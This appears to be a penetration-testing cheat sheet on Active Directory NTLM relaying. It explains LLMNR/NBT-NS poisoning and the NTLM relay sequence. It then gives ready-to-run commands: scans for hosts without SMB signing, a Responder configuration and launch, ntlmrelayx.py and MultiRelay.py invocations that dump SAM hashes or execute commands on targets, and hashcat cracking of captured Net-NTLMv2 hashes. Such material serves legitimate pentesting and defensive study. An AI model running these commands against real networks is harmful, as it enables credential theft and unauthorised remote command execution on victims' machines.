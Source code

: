 # Active Directory - NTLM Relaying

### Overview

The **LLMNR and NBT-NS poisoning attack**, combined with the **SMB Relay
attack**, or **NTLM Relaying**, can be used to gain an authenticated access to
servers by capturing local network SMB authentication traffic and relaying it to
targets servers.

Even when the organization has good patch management practices, this reliable
and effective attack can almost always be leveraged to obtain an initial
foothold.

###### LLMNR and NBT-NS poisoning

The **Link-Local Multicast Name Resolution (LLMNR)** and **Netbios Name
Service (NBT-NS)** protocols can be abused to intercept local network traffic.

These components allow machines on the same subnet to identify hosts when DNS
resolution fails. If one machine tries to resolve a particular host, but DNS
resolution fails, the machine will then attempt to ask all other machines on
the local network for the correct address via LLMNR or NBT-NS.

An attacker can listen on a network for these LLMNR (UDP/5355) or NBT-NS
(UDP/137) broadcasts requests and respond to them, thus pretending to be the
requested host.

###### NTLM relaying

The **NT LAN Manager v1 and v2** authentication process, used in by the
**Server Message Block (SMB)** protocol can be subverted.

The attack unwinds as follow:
  1. The victim tries to authenticates himself to a server
     (SMB_COM_NEGOTIATE Request)
  2. The authentication request is intercepted by an attacker
  3. The attacker initiates an authentication procedure to a targeted server
     and retrieves an authentication challenge (NTLM_CHALLENGE_MESSAGE) from
     this server
  4. The attacker forwards this challenge to the victim
  5. The victim answers the challenge to the attacker
     (NTLM_AUTHENTICATION_MESSAGE)  
  6. The attacker can then relay the victim challenge response to the targeted
     server to authenticate as the victim
  7. If the victim has local admin rights on the server, an complete access can
     be acquired   

Since MS08-068 you cannot relay a Net-NTLM hash back to the same machine you
got it from (e.g. the 'reflective' attack) unless you're performing a
cross-protocol relay.

For the attack to work, SMB Signing needs to be disabled on the targeted
machine. While SMB packet signing is available in all supported versions of
Windows, it is enabled by default on Domain Controllers.

### Exploit

*
To capture and offline crack the hashes captured, do not disable Responder SMB
and HTTP servers. The authentication attempt won't be transmitted to the relay
servers and no NTLM relaying is possible.  
To crack the Net-NTLMv2 hashes use hashcat:  
hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>
*

First, a list of host with SMB signing must be gathered. Either `nmap` or
`CrackMapExec` V4 can be used.

`Responder` can be used to conduct the LLMNR and NBT-NS poisoning
attack and the `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py`, that comes
with the Responder toolkit, scripts can be used for the NTLM relaying.  

##### List SMB Signing disabled hosts

Either nmap or CMEv4 can be used to gather a list of host with SMB signing
disabled and output the result to a file:

```bash
nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <HOSTNAME | IP | CIDR | TARGETS_FILE> --gen-relay-list <FILE>
```

##### Intercepting

To check if a specific host, identified by its hostname, has LLMNR activated:

```
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>'
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>' -e <NETWORK_INTERFACE>

# Metasploit
use auxiliary/scanner/llmnr/query
set NAME <HOSTNAME>
run
```

If LLMNR is disabled, system have been hardened but NBT-NS may still be enabled.

`Responder` can be used to conduct the LLMNR and NBT-NS poisoning
attack.

*Do not use the version of Responder on SpiderLab's Github repository as it
isn't maintained anymore, use lgandx's fork instead.*

Edit the Responder.conf file and turn off the SMB and HTTP servers:

```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured are
automatically passed to ntlmrelayx.py's SMB and HTTP servers for the relay
attack.

Start Responder :

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

##### Relaying

The `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py`, that comes
with the `Responder` toolkit, scripts can be used for the NTLM relaying part:  

```
# ntlmrelayx - By default, dump SAM base.
ntlmrelayx.py -t <IP | HOSTNAME>
ntlmrelayx.py -tf <TARGETS_FILE>
ntlmrelayx.py -t <IP | HOSTNAME> -c <COMMAND>
ntlmrelayx.py -tf <TARGETS_FILE> -c <COMMAND>

# MultiRelay
MultiRelay.py -t <target host> -c <'command to run'> -u <user to target>
```
